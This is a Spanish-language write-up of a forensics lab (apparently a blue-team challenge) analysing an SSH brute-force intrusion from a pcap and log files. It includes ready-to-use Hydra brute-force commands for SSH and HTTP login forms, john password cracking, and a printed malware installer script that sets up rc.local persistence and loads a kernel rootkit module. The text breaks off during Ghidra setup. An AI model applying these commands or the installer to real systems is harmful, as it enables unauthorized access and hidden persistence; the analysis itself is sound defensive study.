








Para este laboratorio se nos proporciona los siguiente ficheros: 

```bash
┌──(kali㉿kali)-[~/blue-labs]
└─$ ls -l escape/temp_extract_dir/EscapeRoom
total 20
drwxr-xr-x 2 root root 4096 May 15 21:04 pcap
-rw-r--r-- 1 kali kali 5675 Jul 28  2012 ps.log
-rw-r--r-- 1 kali kali 1998 Jul 28  2012 shadow.log
-rw-r--r-- 1 kali kali  826 Jul 28  2012 sudoers.log
```

Vamos a usar `zeek` para realizar un análisis inicial: 

```bash
┌──(kali㉿kali)-[~/blue-labs/escape/temp_extract_dir/EscapeRoom]
└─$ docker run -v $(pwd):/mnt -it zeek/zeek sh

root@09f6334b12f3:/mnt/pcap# zeek -C -r hp_challenge.pcap
root@09f6334b12f3:/mnt/pcap# ls
conn.log  files.log  hp_challenge.pcap  http.log  packet_filter.log  ssh.log
```

Analizando el conn.log ya podemos ver varias conexiones ssh hacia una ip privada. 



Esto ya nos da para empezar a trabajar con wireshark. 

---

<h3 style="color: #0d6efd;">Q1. ¿Qué servicio utilizó el atacante para acceder al sistema?</h3>

Bien, ya podemos afirmar con la imagen anterior que el atacante estaba conectado al servidor.

---

<h3 style="color: #0d6efd;">Q2. ¿Qué tipo de ataque se utilizó para acceder al sistema?(una palabra) </h3>

Ya sabemos que el ataque fue por ssh, aplicando un filtro podemos ver lo siguiente: 



Y podemos ver varios intentos de conexión: 

En un ataque de fuerza bruta contra SSH, no verás en el contenido de los paquetes las contraseñas (todo va cifrado), pero sí podrás reconocer **la repetición continua de la fase de establecimiento de sesión** (handshake). Cada intento de login implica de cabo a rabo una negociación de protocolo igual que la primera vez. Estos son los **paquetes clave** que se repiten una y otra vez:

1. **Banner de protocolo**

   * `Server: Protocol (SSH-2.0-OpenSSH_…)`
   * `Client: Protocol (SSH-2.0-OpenSSH_…)`
     Cada nueva conexión arranca con el intercambio de versión.

2. **Intercambio de parámetros (KEXINIT)**

   * `Server: Key Exchange Init`
   * `Client: Key Exchange Init`
     Aquí negocian algoritmos de cifrado, compresión, MAC, etc.

3. **Solicitud y respuesta de Diffie-Hellman**

   * `Client: Diffie-Hellman Group Exchange Request`
   * `Server: Diffie-Hellman Group Exchange Group`
   * `Client: Diffie-Hellman Group Exchange Init`
   * `Server: Diffie-Hellman Group Exchange Reply, New Keys`

4. **Confirmación de nuevas claves**

   * `Client: New Keys`
   * `Server: Encrypted packet (len=XX)`

5. **Cierre inmediato o nuevo intento**
   Tras la negociación inicial, si la autenticación falla (o el cliente cierra), suelen verse paquetes TCP `FIN`/`RST` o simplemente no hay más datos aparte de “Encrypted packet (len=52)” sin payload útil.

---

### Otros filtros / paquetes a vigilar

* **SYNs repetidos al puerto 22**

  ```bash
  tshark -r hp_challenge.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack==0 && tcp.dstport==22"
  ```

  Un gran número de SYNs en poco tiempo sugiere muchos intentos de conexión.

* **SYN-ACK sin ACK de cliente**
  Conexiones que ni llegan a completar el handshake:

  ```bash
  tshark -r hp_challenge.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack==1 && tcp.srcport==22"
  ```

  seguidas de falta de ACK final.

* **Número de sesiones SSH en Zeek**
  Zeek genera `ssh.log` donde cada intento aparece como evento `ssh::connection_attempt`. Puedes contar entradas:

  ```bash
  zeek -C -r hp_challenge.pcap ssh
  cut -f1-5 ssh.log | wc -l
  ```

  Un valor inusualmente alto en un corto intervalo de tiempo confirma brute-force.

* **Duración muy corta de cada sesión**
  En Zeek `ssh.log` nos fijamos en el campo `duration`. Si casi todas las sesiones duran milisegundos (<< 1 s), son intentos automáticos que abortan rápido tras fallo de credenciales.




---

<h3 style="color: #0d6efd;">Q3. ¿Cuál fue la herramienta que posiblemente utilizó el atacante para realizar este ataque? </h3>

**Hydra** es una herramienta de fuerza bruta paralelizada muy utilizada en auditorías de seguridad para validar la robustez de credenciales en multitud de protocolos (SSH, FTP, HTTP, SMB, RDP, etc.). Su potencial radica en lanzar miles de intentos concurrentes y en su gran versatilidad de módulos de servicio.

## 1. Conceptos clave de Hydra

* **Módulo (servicio)**: especifica contra qué protocolo o servicio atacar, p. ej. `ssh`, `ftp`, `http-get`, `http-post-form`, `mysql`, etc.
* **Objetivo**: host o IP (y opcionalmente puerto con `-s`).
* **Usuario(s)**: uno o varios a probar, con `-l` para uno solo o `-L` para un fichero de usuarios.
* **Lista de contraseñas**: `-p` para una contraseña única, o `-P` para un fichero con posibles contraseñas.
* **Paralelismo**: `-t` controla el número de hilos concurrentes.
* **Salida en pantalla**: `-V` muestra cada intento en tiempo real.
* **Detención tras credencial válida**: `-f` hace que Hydra pare al encontrar la primera pareja válida.


## 2. Ejemplo 1: Fuerza bruta contra SSH

Supongamos que queremos probar usuarios `root` y `admin` con un diccionario de contraseñas `rockyou.txt` contra el host `10.0.0.5` en el puerto por defecto (22):

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \
      -t 16 -f -V ssh://10.0.0.5
```

* `-L users.txt`
  Fichero con una lista de usuarios (`root`, `admin`, …).
* `-P rockyou.txt`
  Lista de contraseñas comunes.
* `-t 16`
  Hasta 16 hilos paralelos.
* `-f`
  Finaliza al encontrar la primera credencial válida.
* `-V`
  Verbose: informa cada intento en pantalla.
* `ssh://10.0.0.5`
  Objetivo y módulo SSH.

## 3. Ejemplo 2: Ataque a formulario HTTP (POST)

Imaginemos un formulario de login en `http://192.168.1.10/login` que recibe los campos `username` y `password`, y devuelve “Login failed” cuando falla. Podríamos usar:

```bash
hydra -L users.txt -P passwords.txt \
      -t 8 -f -V \
      192.168.1.10 http-post-form \
      "/login:username=^USER^&password=^PASS^:F=Login failed"
```

* `http-post-form`
  Módulo para formularios HTTP vía POST.
* La cadena entre comillas divide en tres partes:

  1. **Ruta**: `/login`
  2. **Parámetros**: `username=^USER^&password=^PASS^`
  3. **Patrón de fallo**: `F=Login failed` (Hydra considera fallo si aparece esa cadena en la respuesta).


## 4. Opciones complementarias útiles

* **`-s <puerto>`**: para servicios que corren en un puerto no estándar.
* **`-o <fichero>`**: guardar resultados válidos en un archivo.
* **`-m <modo>`**: algunos módulos permiten modos adicionales, p. ej. `-m AFS` en AFS.
* **`-S`**: fuerza uso de SSL/TLS cuando aplica (e.g. `-S ssh` o `https-post-form`).
* **`-w <segundos>`**: timeout para cada conexión.

Hay otras como 
Medusa: Muy similar a Hydra, con soporte para más de 30 servicios (SSH, FTP, Telnet, HTTP, SMB, VNC, VNC, etc.). Ligera en recursos y permite definir módulos propios.
Ncrack: Proyecto de los creadores de Nmap, optimizado para redes de alta latencia y servicios modernos. Integración con Nmap y generación de informes XML.
Patator: Framework modular en Python para ataques de fuerza bruta y fuzzing.Muy flexible en el tratamiento de respuestas y patrones de éxito/fracaso.
Crowbar (anteriormente Levye): Diseñada para ataques a servicios de túnel (SSH, RDP, VNC) y autenticación 802.1X. Muy efectiva contra servicios Windows y VPNs que no toleran bien múltiples conexiones simultáneas.

---

<h3 style="color: #0d6efd;">Q4. ¿Cuántos intentos fallidos hubo? </h3>

Esto lo podemos obtener facilmente con el fichero `ssh.log` y `awk`: 

```bash
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap]
└─$  awk '{print $9}' ssh.log | sort | uniq -c
      7
     52 0
      2 1
      1 auth_success
      1 bool
```

```bash
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap]
└─$ cut -f9 ssh.log | grep -c '^0$'
52
```

También se puede hacer con `Zui`, una herramietna similar a `Splunk` o `ELK`

---

<h3 style="color: #0d6efd;">Q5. ¿Qué credenciales (nombre de usuario:contraseña) se utilizaron para obtener acceso? Consulte shadow.log y sudoers.log.</h3>

Para esto podemos usar la bien conocida herramienta `john the ripper`

```bash
┌──(kali㉿kali)-[~/blue-labs/escape/temp_extract_dir/EscapeRoom]
└─$ john -w:/usr/share/wordlists/rockyou.txt shadow.log
Using default input encoding: UTF-8
Loaded 11 password hashes with 11 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
forgot           (manager)

```

---

<h3 style="color: #0d6efd;">Q6. ¿Qué otras credenciales (nombre de usuario:contraseña) podrían haberse utilizado para acceder también tienen privilegios SUDO? Consulte shadow.log y sudoers.log.</h3>

Si dejamos corriendo el john, eventualmente encontrará que el usuario `sean` también tiene una contraseña vulnerable. 


---

<h3 style="color: #0d6efd;">Q7. ¿Cuál es la herramienta utilizada para descargar archivos maliciosos en el sistema?</h3>

Bien, ya vimos que zeek nos reportó 2 protocolos de red, ssh y http, filtramos por el segundo: 



Vemos `wget`, un comando clásico que usan los atacantes para descargar recursos de servidores que controlan. 

---

<h3 style="color: #0d6efd;">Q8. ¿Cuántos archivos descarga el atacante para realizar la instalación del malware? </h3>

Bien, podemos exportar los ficheros desde wireshark, pero también podemos usar networkminer: 



Vemos varios html y .bmp, que son imágenes de mapas de bits, pero los html parece que no lo son: 

```bash
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ xxd 7eItdtTM+hmAc+xdp0j9sNXDw94VfQK+m+CgCpyx1AVPFSw= | head -n 10
00000000: 424d 5a94 2300 0000 0000 3600 0000 2800  BMZ.#.....6...(.
00000010: 0000 bc03 0000 2d03 0000 0100 1800 0000  ......-.........
00000020: 0000 2494 2300 c40e 0000 c40e 0000 0000  ..$.#...........
```

Que los primeros bytes corresponden a los de un .bmp.

Ahora analicemos los ficheros `.html`

```bas
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ file 1
1: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header

┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ file 2
2: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped

┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ file 3
3: Bourne-Again shell script, ASCII text executable
```

No parecen ser html precisamente, tenemos 3 ficheros maliciosos. 

---

<h3 style="color: #0d6efd;">Q9. ¿Cuál es el hash MD5 del malware principal? </h3>

Analizando el último, que es un script: 

```bash
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ strings 3
#!/bin/bash
mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

Este script realiza básicamente la instalación de dos componentes maliciosos y asegura su persistencia en el sistema:

1. **Instalación de un binario “mail” en `/var/mail`**

   ```bash
   mv 1 /var/mail/mail
   chmod +x /var/mail/mail
   ```

   * Mueve el fichero numerado `1` a `/var/mail/mail`.
   * Le da permisos de ejecución.

2. **Configuración de arranque automático del “mail”**

   ```bash
   echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
   ```

   * Sobrescribe `/etc/rc.local` para que, en cada arranque, se ejecute `/var/mail/mail` en segundo plano, espere 1 s, escriba el PID del proceso `mail` en `/proc/dmesg` (usado aquí como canal de salida) y termine exitosamente.
   * Así, el “mail” malicioso se lanza automáticamente tras cada reinicio.

3. **Ejecución inmediata en background**

   ```bash
   nohup /var/mail/mail > /dev/null 2>&1 &
   ```

   * Lanza ya mismo el binario `mail` descuidado de la terminal (`nohup`), redirigiendo toda la salida a `/dev/null`, y lo deja corriendo en segundo plano.

4. **Instalación de un módulo de kernel “sysmod”**

   ```bash
   mv 2 /lib/modules/`uname -r`/sysmod.ko
   depmod -a
   echo "sysmod" >> /etc/modules
   modprobe sysmod
   ```

   * Mueve el fichero numerado `2` a la carpeta de módulos del kernel para la versión actual (`uname -r`), renombrándolo a `sysmod.ko`.
   * Ejecuta `depmod -a` para regenerar las dependencias de módulos.
   * Añade `sysmod` al final de `/etc/modules`, garantizando que se cargue en el arranque.
   * Carga de inmediato el módulo con `modprobe sysmod`.

5. **Registro del PID del proceso “mail”**

   ```bash
   sleep 1
   pidof mail > /proc/dmesg
   ```

   * Tras un segundo de espera, vuelve a volcar el PID de `mail` en `/proc/dmesg`, posiblemente para que el módulo de kernel o algún otro componente lo lea allí.

6. **Limpieza final**

   ```bash
   rm 3
   ```

   * Borra el script actual (presumiblemente guardado como `3`) para ocultar evidencias.


- Archivo 1: Renombrado como mail y ejecutado. Se hace persistente. Este es muy probablemente un malware en espacio de usuario (userland), tal vez un backdoor o bot.

- Archivo 2: Se instala como un módulo del kernel (sysmod.ko), lo que lo convierte en un rootkit en espacio de kernel. Esto tiene mayor nivel de privilegios y puede esconder procesos, interceptar llamadas del sistema, etc.

**El rootkit (2) es muy importante porque actúa a nivel de kernel, pero el que se ejecuta y mantiene la persistencia directa es el archivo 1 (/var/mail/mail).** 

```bash
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ md5sum 1
772b620736b760c1d736b1e6ba2f885b  1
```

---

<h3 style="color: #0d6efd;">Q10. ¿Qué archivo ha modificado el script para que el malware se inicie al reiniciar? </h3>

Ya explicamos en la pregunta anterior que el 

##  `/etc/rc.local`

Es un **script de inicialización** que se ejecuta al **final del proceso de arranque** del sistema. Cualquier comando que se ponga dentro de `/etc/rc.local` se ejecutará **con privilegios de root** durante el arranque, siempre y cuando el sistema esté configurado para usarlo.

Permite ejecutar comandos personalizados al inicio del sistema, por ejemplo:

```bash
#!/bin/bash
/path/to/my/script.sh &
exit 0
```

> En sistemas modernos con `systemd`, `/etc/rc.local` **no siempre está habilitado por defecto**, pero si existe y tiene permisos de ejecución, `systemd` puede ejecutarlo igualmente si está configurado.


```bash
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
```

Esto indica:

* Ejecuta el malware (`/var/mail/mail`) en segundo plano (`&`).
* Duerme 1 segundo.
* Ejecuta `pidof mail > /proc/dmesg`
* Finaliza con `exit 0` (requerido en `rc.local` para indicar éxito).

---

<h3 style="color: #0d6efd;">Q11. ¿Dónde guardaba el malware los archivos locales?</h3>

Esto se almacena en `/var/mail/`

* `/var/mail/` es típicamente usada para almacenar buzones de correo local (por usuario).
* **No es común** que allí existan archivos ejecutables, por lo que:

  * Puede pasar **desapercibido** a simple vista.
  * Evita rutas más vigiladas como `/bin`, `/usr/bin`, etc.
  * A menudo no se restringe tanto su uso.

---

<h3 style="color: #0d6efd;">Q12. ¿Qué falta en ps.log? </h3>

Para esto ya nos piden revisar el fichero ps.log, pero si nos detenemos a revisar los procesos listados vemos que no aparece el fichero que se sobreescribe en `/etc/rc.local`. 
Esto tiene sentido ya que los rootkit, entre sus técnicas, está la de ocultarse ante utilidades típicas del sistema como `ps`, ocultándose a sí mismo de los listados de procesos, listados de archivos y tablas de conexiones de red.


----

<h3 style="color: #0d6efd;">Q13. ¿Cuál es el archivo principal que se utiliza para eliminar esta información de ps.log?</h3>

Esto se encuentra en la siguiente parte del script. 

   ```bash
   mv 2 /lib/modules/`uname -r`/sysmod.ko
   depmod -a
   echo "sysmod" >> /etc/modules
   modprobe sysmod
   ```

   * Mueve el fichero numerado `2` a la carpeta de módulos del kernel para la versión actual (`uname -r`), renombrándolo a `sysmod.ko`.
   * Ejecuta `depmod -a` para regenerar las dependencias de módulos.
   * Añade `sysmod` al final de `/etc/modules`, garantizando que se cargue en el arranque.
   * Carga de inmediato el módulo con `modprobe sysmod`.

Al estar ahora en los módulos del kernel, le permite realizar operaciones privilegiadas de acceso a la estructura interna de éste, logrando asi modificar las llamadas del sistema y poder modificarlas para ocultar el malware. 

---

<h3 style="color: #0d6efd;">Q14. Dentro de la función Main, ¿cuál es la función que provoca las peticiones a esos servidores? </h3>

Para usamos [Detect-it-easy](https://github.com/horsicq/Detect-It-Easy/releases), que es un potente analizador de ficheros, compiladores y paquetes. Nos permite ver las características de estos para un análisis más profundo.



Vemos que es un  formato ejecutable ELF64 para sistemas Linux/AMD64 64-bit. Además vemos que está empaquetado con UPX(Ultimate Packer for eXecutables) version 2.08. UPX es un compresor de ficheros opensource légitimo, pero que los atacantes suelen usar para ofuscar código.

Desempaquetamos: 
```bash 
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ upx -d 1
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
[WARNING] bad b_info at 0x22a8

[WARNING] ... recovery at 0x22a4

     30222 <-     11164   36.94%   linux/amd64   1

Unpacked 1 file.
```

Y aqui tenemos 2 opciones, usar IDA Pro (Interactive Disassembler) o Ghidra, yo me descargué ghidra asi que estoy es lo que voy a usar.

Subimos el fichero desempaquetado: 


## 1. Inicia Ghidra

1. Abre una terminal en Kali.
2. Ejecuta el script de arranque de Ghidra (ajusta la ruta si lo descomprimiste en otro directorio):

   ```bash
   /opt/ghidra/ghidraRun
   ```

   Verás la interfaz gráfica de Ghidra cargarse.

## 2. Crea un nuevo proyecto

1. En la ventana de bienvenida, haz clic en **“New Project”**.
2. Selecciona **Non-Shared Project** y pulsa **Next**.
3. Elige una carpeta donde guardar tu proyecto y ponle un nombre (por ejemplo, `EscapeLab`).
4. Pulsa **Finish**.

## 3. Importa el ejecutable empaquetado

1. Dentro del proyecto, haz clic en **File → Import File…**.
2. Navega hasta la carpeta donde está `1` y selecciónalo.
3. Ghidra detectará el formato ELF automáticamente; dale **OK**.
4. Cuando aparezca el diálogo de “Import Results”, comprueba que aparece “ELF 64-bit”. Haz clic en **OK**.

## 4. Ejecuta el análisis automático

1. Tras la importación, haz doble clic sobre el archivo `1` en la lista de “Project Files”.
2. En el diálogo **“Open With”**, asegúrate de que está seleccionado **CodeBrowser** y pulsa **OK**.
3. Al abrirse CodeBrowser, se te preguntará si quieres lanzar el **Auto-Analysis**. Deja las opciones por defecto marcadas (Architecture, Data Types, Function ID, etc.) y pulsa **Analyze**.

   > Esto realizará desensamblado, identificará funciones, strings, referencias y, si hay, decompilación preliminar.

## 5. Navega por la descompilación y el desensamblado

* **Vista de Desensamblado (Listing):**
  A la izquierda verás las instrucciones ensamblador.
* **Vista de Decompilación:**
  En la pestaña “Decompile” (normalmente a la derecha) Ghidra mostrará un pseudocódigo C-like de la función seleccionada.
* **Strings:**
  Abre el panel **Window → Defined Strings** para ver todas las cadenas ASCII/Unicode detectadas.
* **Funciones:**
